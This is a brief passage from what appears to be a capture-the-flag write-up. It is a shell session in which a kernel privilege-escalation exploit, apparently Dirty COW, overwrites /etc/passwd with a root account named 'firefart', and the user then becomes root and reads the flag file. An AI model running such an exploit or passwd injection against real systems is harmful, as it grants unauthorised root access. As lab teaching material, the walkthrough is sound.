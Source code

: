 ```shellsession
leopold@leopold:/home/leopold$ ./dirty 
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
firefart:fik9Kb9f4rF2w:0:0:pwned:/root:/bin/bash

mmap: b7733000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'devloop'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'devloop'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
leopold@leopold:/home/leopold$ su firefart
Password: 
firefart@leopold:/home/leopold# cd /root
firefart@leopold:~# ls
flag.txt
firefart@leopold:~# cat flag.txt
53b0af358e2bfcef9883f25fc
```

*Publié le 21 décembre 2022*
